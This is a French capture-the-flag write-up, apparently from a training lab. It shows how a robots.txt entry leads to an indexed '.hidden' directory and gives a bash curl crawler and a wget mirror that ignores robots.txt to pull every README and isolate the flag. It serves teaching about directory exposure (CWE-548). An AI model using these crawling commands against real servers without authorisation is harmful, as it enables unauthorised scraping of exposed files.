

# Objectif

Récupérer le flag en exploitant une mauvaise configuration du serveur web qui expose un fichier sensible.

## Données récupérées

Lors de la reconnaissance du réseau avec ```nmap``` (voir le walkthrough Sensitive_File_Exposure_leading_to_Credential_Compromise), le fichier ```robots.txt``` révèle le répertoire ```.hidden.```

Ce répertoire n’est pas protégé : on peut donc le consulter.

## L'arborescence du .hidden



L’indexation des répertoires est activée (*autoindex on*). On peut donc explorer toute l’arborescence. Chacun des 26 dossiers contient 26 sous-dossiers, et ce schéma se répète sur trois niveaux. Tous ces dossiers contiennent un fichier **README**. On soupçonne qu’un flag se trouve parmi eux.

## Méthode 1: Le script

```
#!/bin/bash
BASE="http://10.171.55.57/.hidden"
OUT="dump_all.txt"
> $OUT

# Récupérer les 26 dossiers de niveau 1
level1=$(curl -s $BASE/ | grep -oP 'href="\K[^"]+(?=/")' | grep -v '\.\.')

for d1 in $level1; do
    level2=$(curl -s $BASE/$d1/ | grep -oP 'href="\K[^"]+(?=/")' | grep -v '\.\.')
    for d2 in $level2; do
        level3=$(curl -s $BASE/$d1/$d2/ | grep -oP 'href="\K[^"]+(?=/")' | grep -v '\.\.')
        for d3 in $level3; do
            content=$(curl -s $BASE/$d1/$d2/$d3/README)
            echo "$d1/$d2/$d3 :: $content" >> $OUT
        done
    done
done

echo "Terminé, résultat dans $OUT"
```
On récupère tous les fichiers README jusqu’au troisième niveau de profondeur, et l’on peut alors constater que le flag a été récupéré.

## Méthode 2: Le Wget

```
wget -r -l inf -np -e robots=off -R "index.html*" -q http://10.171.55.57/.hidden/
find 10.171.55.57 -name README -exec cat {} + | sort | uniq -c | sort -n | head
```
- La première commande télécharge toute l'arborescence. -R "index.html*" supprime les pages de listing et ne garde que les README.
- La deuxième lit tous les README et compte cobien de fois chaque ligne apparaît. Les phrases leurres reviennent des milliers de fois. La ligne qui'apparaît qu'une fois, c'est le flag. Elle s'affiche en premier.

| Étape | Faille | Référence |
|-------|--------|-----------|
| robots.txt révèle des chemins | Security through obscurity | - |
| .hidden accessible en HTTP | Sensitive Directory Exposure | CWE-548 |
